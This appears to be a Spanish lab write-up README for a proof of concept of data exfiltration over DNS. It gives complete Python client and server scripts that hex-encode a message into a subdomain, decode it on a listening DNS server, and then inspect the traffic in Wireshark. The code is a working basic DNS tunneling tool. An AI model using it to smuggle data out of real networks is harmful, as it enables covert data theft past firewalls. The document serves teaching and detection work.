

# DNSpy — Exfiltración de datos mediante consultas DNS (PoC)

Prueba de concepto de **exfiltración de datos a través del protocolo DNS**, usando Python y `dnspython` para codificar un mensaje oculto dentro de un subdominio y capturando el tráfico resultante con Wireshark.

## Índice

1. [Comprobación del entorno](#1-comprobación-del-entorno)
2. [Scripts](#2-scripts)
3. [Instalación de dependencias](#3-instalación-de-dependencias)
4. [Captura con Wireshark](#4-captura-con-wireshark)
5. [Ejecución](#5-ejecución)
6. [Análisis de la captura](#6-análisis-de-la-captura)

---

## 1. Comprobación del entorno

Antes de ejecutar los scripts se comprobó la versión de Python 3 instalada, para asegurar la compatibilidad:

```bash
python3 --version
```

---

## 2. Scripts

Para realizar la prueba usando la IP real de la red estática de la VM (en lugar de `127.0.0.1`), se dejó el servidor escuchando en todas las interfaces y se apuntó el cliente a la IP estática.

### 2.1 Servidor — `dns_server_1_peticion.py`

Escucha en `0.0.0.0:53/UDP`, extrae el subdominio de la petición, decodifica el texto en hexadecimal y responde con un registro `A` ficticio (`4.3.2.1`).

```python
#!/usr/bin/python3
# Archivo ....: dns_server_1.py
# Autor ......: Gabriel Martí
# Fecha ......: 20/12/2022

import socket
import dns.message
import dns.name
import dns.rdata
import dns.rdataclass
import dns.rdatatype
import dns.rrset

# Declaración de variables
servidor = "0.0.0.0"        # Escucha en todas las interfaces de red
puerto = 53                 # Puerto 53 DNS
buffer = 4096               # Tamaño buffer
dominio = "secreto.com."    # Nombre de dominio absoluto para la respuesta
ip_respuesta = "4.3.2.1"    # IP falsa de respuesta

# Crear un socket servidor UDP
server_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_socket.bind((servidor, puerto))

print("Esperando 1 peticion DNS...")

while True:
    # Recibir una petición del cliente
    request_data, client_address = server_socket.recvfrom(buffer)

    # Deserializar la petición
    request = dns.message.from_wire(request_data)

    print("Recibida petición DNS")
    print(request)

    # Extraer el nombre de dominio completo de la petición
    full_domain_name = request.question[0].name.to_text()
    print("Nombre dominio completo: " + full_domain_name)

    # Extraer la parte del nombre de subdominio
    subdomain = full_domain_name.split(".")[0]
    print("Subdominio recibido: " + subdomain)

    try:
        # Convierte nombre de subdominio en hexadecimal a los datos reales
        datosreales = bytes.fromhex(subdomain).decode()
        print("Mensaje oculto recibido: " + datosreales)
    except Exception as e:
        print("No hay datos en hexadecimal")

    # Prepara la respuesta DNS
    response = dns.message.make_response(request)
    response.id = request.id
    response.set_rcode(dns.rcode.NOERROR)

    # Añade la respuesta A
    response.answer.append(dns.rrset.from_text(dominio,
                                               300,
                                               dns.rdataclass.IN,
                                               dns.rdatatype.A,
                                               ip_respuesta))

    # Serializar y enviar respuesta
    response_data = response.to_wire()
    server_socket.sendto(response_data, client_address)

    # Rompe el bucle tras la primera petición
    break
```

### 2.2 Cliente — `dns_client_1_peticion.py`

Se cambió la variable `servidor` de `127.0.0.1` a la IP fija de la VM (`192.168.6.100`) para que las tramas se enviasen realmente por la interfaz de red.

```python
#!/usr/bin/python3
# Archivo ....: dns_client_1.py
# Autor ......: Gabriel Martí
# Fecha ......: 20/12/2022

import dns.message
import dns.query

# --- CAMBIO REALIZADO ---
# Se cambió "127.0.0.1" por la IP de la interfaz estática de la VM
servidor = "192.168.6.100"                  # IP estática de la VM
puerto = 53                                 # Puerto DNS
dominio = "secreto.com"                     # Nombre de dominio inventado
subdominio = "6461746f73206f63756c746f73"   # "datos ocultos" en hexadecimal

# Formar el FQDN completo con los datos exfiltrados
dominiocompleto = subdominio + "." + dominio

print("Inicio del envio")

# Crear consulta DNS de Registro A
request = dns.message.make_query(dominiocompleto, dns.rdatatype.A)

# Enviar la petición al servidor DNS y esperar respuesta (timeout de 5s)
response = dns.query.udp(request, servidor, timeout=5)

# Imprimir la respuesta recibida
print("Respuesta: ", response)

print("Fin del envío")
```

---

## 3. Instalación de dependencias

Al ejecutar los scripts, Python lanzó un error al no encontrar el módulo `dns.message`. En Debian 13 se solucionó instalando la librería oficial desde los repositorios del sistema:

```bash
sudo apt update
sudo apt install python3-dnspython -y
```

---

## 4. Captura con Wireshark

Instalación de Wireshark:

```bash
sudo apt install wireshark -y
```

Ejecución con privilegios de superusuario:

```bash
sudo wireshark
```

En la interfaz gráfica:

- Se seleccionó la interfaz **any** (*Capturing from any*).
- Se aplicó el filtro `dns` en la barra de filtros.

---

## 5. Ejecución

Con Wireshark capturando en segundo plano, se abrieron dos terminales en la carpeta de los scripts (`~/Desktop`):

**Terminal 1 — Servidor** (se ejecuta con `sudo` para poder abrir el puerto restringido 53/UDP):

```bash
sudo python3 dns_server_1_peticion.py
```

Salida inicial: `Esperando 1 peticion DNS...`

**Terminal 2 — Cliente:**

```bash
sudo python3 dns_client_1_peticion.py
```

Al ejecutarse, el servidor capturó la consulta, decodificó el subdominio `6461746f73206f63756c746f73` a `datos ocultos`, respondió al cliente con la IP `4.3.2.1` y ambos programas finalizaron con éxito.



---

## 6. Análisis de la captura de Wireshark

En la captura se aprecian dos tramas correspondientes al ciclo completo de la comunicación DNS:

**Trama 1 — Petición (Query)**

- **Source / Destination:** `192.168.6.100 → 192.168.6.100`, lo que confirma que la petición se envió a la IP estática de la interfaz de red de la VM y no a la interfaz de loopback (`127.0.0.1`).
- **Info:** `Standard query 0x4a2e A 6461746f73206f63756c746f73.secreto.com` — la consulta del cliente solicitando el registro `A` para el subdominio que contiene el texto en hexadecimal.

**Trama 2 — Respuesta (Response)**

- **Source / Destination:** `192.168.6.100 → 192.168.6.100`.
- **Info:** `Standard query response 0x4a2e A 6461746f73206f63756c746f73.secreto.com` — la contestación del script servidor con código `NOERROR`.

**Panel de hexdump:** al seleccionar la trama de respuesta se observa el texto ASCII incrustado en el paquete (`secreto.com` y la IP de respuesta `4.3.2.1`), lo que demuestra cómo la información viaja embebida dentro de la estructura estándar de las peticiones DNS.


---

## Conclusión

Esta PoC demuestra el principio básico de la **exfiltración de datos vía DNS (DNS tunneling)**: al codificar información en subdominios de consultas DNS legítimas, los datos pueden salir de una red atravesando controles de firewall que normalmente permiten el tráfico DNS sin inspeccionarlo en profundidad. Es una técnica relevante tanto desde el punto de vista ofensivo (exfiltración, C2) como defensivo (detección mediante análisis de entropía/longitud de subdominios, DNS sinkholes, etc.).
